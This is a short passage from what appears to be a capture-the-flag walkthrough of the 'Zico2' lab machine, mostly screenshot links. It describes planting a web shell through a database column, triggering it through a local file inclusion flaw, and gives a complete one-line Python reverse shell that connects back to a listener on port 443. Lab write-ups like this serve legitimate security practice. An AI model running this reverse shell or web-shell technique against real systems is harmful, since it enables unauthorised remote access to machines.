 ![](/assets/images/zico2/screenshot-10.png)

We insert a web shell into the **input** column.

![](/assets/images/zico2/screenshot-11.png)

Using the LFI vulnerability we can include the **hack.php** database, to execute the **whoami** command.

![](/assets/images/zico2/screenshot-12.png)

We need to set up a netcat listener on port 443, and run the following python reverse shell.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.179.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

![](/assets/images/zico2/screenshot-13.png)
